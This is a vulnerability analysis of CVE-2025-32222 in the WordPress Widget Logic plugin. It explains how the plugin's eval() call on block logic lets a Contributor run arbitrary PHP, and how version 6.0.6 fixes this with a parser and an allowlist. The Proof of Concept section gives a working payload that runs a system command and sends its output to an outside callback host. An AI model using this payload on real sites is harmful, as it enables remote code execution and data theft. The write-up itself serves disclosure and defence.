

<!--more-->

## CVE & Basic Info

The **Improper Control of Generation of Code ('Code Injection')** vulnerability in Widgetlogic.org’s **Widget Logic (widget-logic)** allows **Code Injection**. This issue affects Widget Logic from versions **n/a to <= 6.0.5**.

* **CVE ID**: [CVE-2025-32222](https://www.cve.org/CVERecord?id=CVE-2025-32222)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 6.0.5
* **Patched Versions**: 6.0.6
* **CVSS severity**: High (9.9)
* **Required Privilege**: Contributor
* **Product**: [WordPress Widget Logic Plugin](https://wordpress.org/plugins/widget-logic/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **Widget Logic**:

  * `6.0.5` – **vulnerable**
  * `6.0.6` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Cause

**In the vulnerable version (v6.0.5):**

```php {title="logic.php v6.0.5" data-open=true hl_lines=[15,21]}
function widget_logic_check_logic($logic)
{
    $logic = @trim((string) $logic);
    $logic = apply_filters("widget_logic_eval_override", $logic);

    if (is_bool($logic)) {
        return $logic;
    }

    if ($logic === '') {
        return true;
    }

    if (stristr($logic, 'return') === false) {
        $logic = 'return (' . html_entity_decode($logic, ENT_COMPAT | ENT_HTML401 | ENT_QUOTES) . ');';
    }

    set_error_handler('widget_logic_error_handler'); // phpcs:ignore -- we have mode for debugging for admins

    try {
        $show_widget = eval ($logic); // @codingStandardsIgnoreLine - widget can't work without eval
    } catch (Error $e) {
        trigger_error($e->getMessage(), E_USER_WARNING); // @codingStandardsIgnoreLine - message is not dependent on user input

        $show_widget = false;
    }

    restore_error_handler();

    return $show_widget;
}
```

The `widget_logic_check_logic()` function uses `eval()` to directly execute the logic string provided by the user, without restricting which functions can be called. If the logic string does not contain the `return` keyword, the function automatically wraps it into a `return(...)` statement to ensure the expression is always valid when executed by `eval()`. This mechanism allows users to enter simple conditional expressions, but it also turns every user input into complete PHP code, significantly increasing the risk of **arbitrary code execution (RCE)**.

**Patch (v6.0.6):**

```php {title="class-wpsight-api.php v6.0.6" data-open=true hl_lines=[4,5,6]}
function widget_logic_check_logic($logic)
{
    $allowed_functions = array(
        'is_home', 'is_front_page', 'is_single', 'is_page', 'is_category',
        'is_tag', 'is_archive', 'is_search', 'is_404', 'is_user_logged_in',
        'current_user_can', 'is_active_sidebar', 'is_admin',
    );

    $allowed_functions = apply_filters('widget_logic_allowed_functions', $allowed_functions);

    $logic = trim((string) $logic);
    if ('' === $logic) {
        return true;
    }

    // Set up error handling
    set_error_handler('widget_logic_error_handler', E_WARNING | E_USER_WARNING);  // @codingStandardsIgnoreLine - we need this for error handling

    try {
        // Tokenize the logic string
        $tokens = widget_logic_tokenize($logic);

        // Parse and evaluate the expression
        $pos = 0;
        $result = widget_logic_parse_expression($tokens, $pos, $allowed_functions);

        // Check if there are any unexpected tokens after the expression
        if ($pos < count($tokens)) {
            throw new Exception(esc_html__('Widget Logic: Unexpected tokens after expression.', 'widget-logic'));
        }

        return (bool)$result;
    } catch (Exception $e) {
        widget_logic_error_handler(E_USER_WARNING, $e->getMessage());
        return false;
    } finally {
        restore_error_handler();
    }
}
```


The patch removes `eval()` and replaces it with a **tokenizer and parser** to evaluate the logic, allowing only functions in a **whitelist**. It validates the syntax, detects unexpected tokens, and handles errors with `try/catch/finally`, thereby **strengthening security** while still ensuring normal widget logic behavior.

## Analysis

The plugin registers a filter hook:

```php {title="index.php v6.0.5" data-open=true hl_lines=[]}
add_filter('render_block', 'widget_logic_block_render', 10, 2);
```

`render_block` is a WordPress filter hook that is called whenever a block (Gutenberg block) is rendered. This means that when a post/page is created, the plugin intercepts the block rendering process with the `widget_logic_block_render` callback.

```php {title="index.php v6.0.5" data-open=true hl_lines=[]}
function widget_logic_block_render($block_content, $block)
{
    if (!isset($block['attrs']['widgetLogic'])) {
        return $block_content;
    }

    return widget_logic_check_logic($block['attrs']['widgetLogic']) ? $block_content : '';
}
```

The `widget_logic_block_render` function checks if the block has the `widgetLogic` attribute. If not, it is rendered normally. This attribute is added through the **Advanced Option** when adding a block.



`widget_logic_check_logic` is called if the block contains this attribute.

The vulnerability is disclosed with a required privilege of **Contributor**, since this role can create posts and use Widget Logic in Advanced Options.

## Flow


graph TD

A["Contributor creates/edits a Gutenberg block"] --> B["Add widgetLogic value in Advanced Options"]

B --> C["Page/Post is rendered"]
C --> D["render_block filter is triggered"]

D --> E["widget_logic_block_render() is called"]

E --> F{"block['attrs']['widgetLogic'] exists?"}
F -- No --> G["Render block normally"]
F -- Yes --> H["Pass widgetLogic to widget_logic_check_logic()"]

H --> I["Normalize & wrap logic with return(...) if needed"]
I --> J["Execute logic using eval()"]

J --> K{"Result = true ?"}
K -- Yes --> L["Block content is displayed"]
K -- No --> M["Block is hidden (empty)"]

J --> N{"Malicious code injected?"}
N -- Yes --> O["Arbitrary PHP code executed (RCE)"]

L --> Z["End"]
M --> Z
O --> Z


## Proof of Concept (PoC)

1. Log in as a **Contributor** user
2. Create a post, add any block, and add the payload in **Widget Logic**:

```
system('curl http://929topgvyzo9d93rxe1xpxcriio9cz0o.oastify.com/?leadked=$(whoami)')
```


## Conclusion

CVE‑2025‑32222 stems from the **use of `eval()` on user-controlled data** in `widget_logic_check_logic()`. With only **Contributor** privileges, an attacker can inject malicious logic into the `widgetLogic` attribute of a block, causing arbitrary PHP code to be executed during the `render_block` process. The automatic wrapping with `return(...)` makes exploitation even easier, as any input ultimately becomes valid PHP code. Version 6.0.6 fully addresses this by removing `eval()` and introducing a **tokenize + parse + allowlist** mechanism, effectively blocking arbitrary code execution.

## Key Takeaways

* Never use `eval()` on user-supplied data, even if the user has lower privileges than an admin.
* Logical expressions should be processed using a **dedicated parser + function whitelist**, not by direct execution.
* Data attached to blocks (block attributes) is still **user input** and must be strictly controlled.
* Even the **Contributor** role can lead to **critical RCE** if input handling is flawed.
* Replacing `eval()` with a safe parsing approach is the correct direction for plugins that process “user logic”.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress Widget Logic Plugin <= 6.0.5 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/widget-logic/vulnerability/wordpress-widget-logic-6-0-5-remote-code-execution-rce-vulnerability)
